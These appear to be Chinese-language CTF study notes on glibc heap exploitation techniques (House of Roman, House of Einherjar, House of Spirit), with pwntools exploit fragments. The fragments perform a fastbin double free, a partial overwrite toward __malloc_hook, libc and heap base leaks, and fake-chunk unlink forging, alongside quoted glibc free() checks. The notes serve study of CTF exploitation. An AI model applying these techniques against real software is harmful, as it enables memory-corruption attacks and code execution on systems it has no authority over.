





# house of 系列

## house of roman

这个主要是利用方法就是通过unsorted bin 的fd 的低两字节对glibc上的某个结构进行要给1/16的一个覆盖爆破这里我们要对这个攻击方式进行一个学习

这里我们攻击流程和原理

这个漏洞和我们的glibc的版本和源码无关，主要是利用pie保护的一个缺陷。

因此我们的流程图是这样的







这个就是整个数据结构的一个流程

但是着我们要注意远程是否又开aslr的地址随机化。同时可以通过/proc/sys/kernel/randomize_va_space的值是可以控制的这里就要移步学习aslr相关的程序

下面这一段就是他的一个核心代码

```py
		add_chunk(0, 0x68)
        add_chunk(1, 0x98)
        add_chunk(2, 0x68)#这个创建了三个堆块

        delete_chunk(1)#这里吧chunk1给free掉是的他进入unsortbin
        add_chunk(3, 0x28)#这里分割出一个0x28大小的堆块，是的chunk1有0x68大小的堆使得它可以绕过fastbin的一个检查这里就要看fastbin attck
        add_chunk(1, 0x68)
        edit_chunk(1, p16(0xbaed))#这里这个数据是用来覆盖到mallod_hook的一个操作

        delete_chunk(2)#double free
        delete_chunk(0)
        delete_chunk(2)

        add_chunk(0, 0x68) 
        edit_chunk(0, p8(0xa0))

        add_chunk(0, 0x68)#这里我们就可以指向0xa0方向的heap
        add_chunk(0, 0x68)
        add_chunk(0, 0x68)
        add_chunk(0, 0x68)
```

## house of force

这里我们使用的一个攻击手法也是比较好用的一个手法因此我们这个进行要给记录

这个手法的主要要求就是需要我们去更改topchunk的size使得我们通过topchunk来构造一个攻击因此我们先查看一下他的保护和源码


## house of einherjar

这个攻击手法主要使用的一个技术手段就是heap overlapping的一个攻击手法，同时他的主要一个攻击手法就是使用的是在利用释放不在fast bin大小范围的chunk尝试和前面的chunk进行要给unlink的一个机制



上面就是我们的一个攻击流程图由于他也是使用到了unlink因此我们要对unlink进行一个，而这个绕过就要去查看unlink的绕过方式了

```py
add_chunk(0, 0x208)
add_chunk(1, 0x208)
add_chunk(2, 0xf8)
add_chunk(3, 0x28)

delete_chunk(0)
delete_chunk(2)
# gdb.attach(p)
show_chunk(0)
p.recv()
libc.address = u64(p.recv(6)[-6:].ljust(8, b'\x00')) - 0x39bb78
info("libc base: " + hex(libc.address))
edit_chunk(0, 'a' * 8)
show_chunk(0)
p.recv()
heap_base = u64(p.recv(14)[-6:].ljust(8, b'\x00')) - 0x420
info("heap base: " + hex(heap_base))
gdb.attach(p)
edit_chunk(0, p64(libc.address+0x39bb78))
#上面的主要做了libc leak和heap leak，下面是工具的主要利用
#重新申请堆块并且在chunk0中写入fake chunk下面满足的绕过条件是fd的bk等于bk的fd
add_chunk(0,0x208)
add_chunk(2,0xf8)

fake_chunk = b''
fake_chunk += p64(0)
fake_chunk += p64(0x411)
fake_chunk += p64(heap_base+0x10)
fake_chunk += p64(heap_base+0x10)

edit_chunk(0,fake_chunk)
#并且要更改下一个chunk的pver_size和size的inuser位是的他完成unlink合并
edit_chunk(1,b'a'*0x200 + p64(0x410)+p8(0))
gdb.attach(p)

# gdb.attach(p,'b __int_free\nc')
# pause()

delete_chunk(2)
```

## house of spreit

它主要使用的方式就是在目标位置伪造fastbin chunk 并且释放，从而达到分配指定地址的chunk的目的。



要想构造fastbin fake chunk，并且将其释放时，可以将其放入到对应的fastbin链表，需要绕过一些检查

其中第一个时fake chunk 的ismmap位不能为1，因为free时，如果时mmap的chunk，会单独处理会进行一个单独处理。

```c
if (chunk_is_mmapped(p)) /* release mmapped memory. */
{
    /* see if the dynamic brk/mmap threshold needs adjusting */
    if (!mp_.no_dyn_threshold && p->size > mp_.mmap_threshold && p->size<= DEFAULT_MMAP_THRESHOLD_MAX) {
        mp_.mmap_threshold = chunksize(p);
        mp_.trim_threshold = 2 * mp_.mmap_threshold;
        LIBC_PROBE(memory_mallopt_free_dyn_thresholds, 2,
        mp_.mmap_threshold, mp_.trim_threshold);
    } m
        unmap_chunk(p);
        return;
}
ar_ptr = arena_for_chunk(p);
_int_free(ar_ptr, p, 0);
```

斌且fake chunk地址需要对戏malloc_align_mask这个大小

```c
#define MINSIZE \
	(unsigned long) (((MIN_CHUNK_SIZE + MALLOC_ALIGN_MASK) &
~MALLOC_ALIGN_MASK))
#define aligned_OK(m) (((unsigned long) (m) &MALLOC_ALIGN_MASK) == 0)
	/* We know that each chunk is at least MINSIZE bytes in size or a multiple of MALLOC_ALIGNMENT. */
	if (__glibc_unlikely(size < MINSIZE || !aligned_OK(size))) {
        errstr = "free(): invalid size";
        goto errout;
}
```

同时还要保证fake chunk的size大小需要满足fast bin的需求

```c
if ((unsigned long) (size) <= (unsigned long) (get_max_fast())
```

fake chunk 的 next chunk 的大小不能小于 2 * SIZE_SZ ，同时也不能大小av->system_mem

```c
if (__builtin_expect(chunk_at_offset(p, size)->size <= 2 * SIZE_SZ,
0) ||
	__builtin_expect(chunksize(chunk_at_offset(p, size)) >= av->system_mem, 0)) {
	/* We might not have a lock at this point and concurrent
modifications of system_mem might have let to a false positive. Redo the test after getting the lock. */
        if (have_lock || ({
        assert(locked == 0);
        mutex_lock(&av->mutex);
        locked = 1;
        chunk_at_offset(p, size)->size <= 2 * SIZE_SZ ||chunksize(chunk_at_offset(p, size)) >= av->system_mem;
        })) {
            errstr = "free(): invalid next size (fast)";
            goto errout;
        } 
            if (!have_lock) {
            (void) mutex_unlock(&av->mutex);
            locked = 0;
    }
}
```

fake chunk 对应的 fastbin 链表头部不能是该 fake chunk，即不能构成 double free 的情况  

```c
if (__builtin_expect(old == p, 0)) {
    errstr = "double free or corruption (fasttop)";
    goto errout;
}
```

这里需要一个例题：lctf2016_pwn200  

